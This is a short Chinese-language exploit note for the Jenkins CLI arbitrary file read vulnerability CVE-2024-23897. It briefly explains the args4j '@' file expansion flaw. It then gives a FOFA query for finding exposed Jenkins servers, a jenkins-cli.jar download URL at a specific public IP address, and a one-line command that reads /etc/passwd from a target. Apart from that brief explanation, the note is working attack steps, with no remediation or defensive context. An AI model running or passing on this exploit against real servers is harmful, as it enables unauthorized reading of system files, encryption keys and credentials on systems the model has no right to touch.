 ## Jenkins任意文件读取漏洞(CVE-2024-23897)

Jenkins CLI 是 Jenkins 内置的命令行页面。

Jenkins 受影响版本中使用 args4j 库解析CLI命令参数，该库默认将参数中 @ 字符后的文件路径替换为文件内容，攻击者可利用该特性使用 Jenkins 控制器进程的默认字符编码读取 Jenkins 控制器文件系统上的任意文件(如加密密钥的二进制文件)


## fofa
```
app="Jenkins"
```

## 根据社区公布的poc：
```
https://twitter.com/shoucccc/status/1750601321831633026
```

此漏洞需要使用到jenkins-cli.jar。读者可以从任意Jenkins网页地址下载： http://129.146.32.86:8080/jnlpJars/jenkins-cli.jar

```
java -jar jenkins-cli.jar -s http://:8080/ connect-node "@/etc/passwd"
```
![image](../../images/bba2e17e-472a-4694-b877-c54c3be42a55.png)
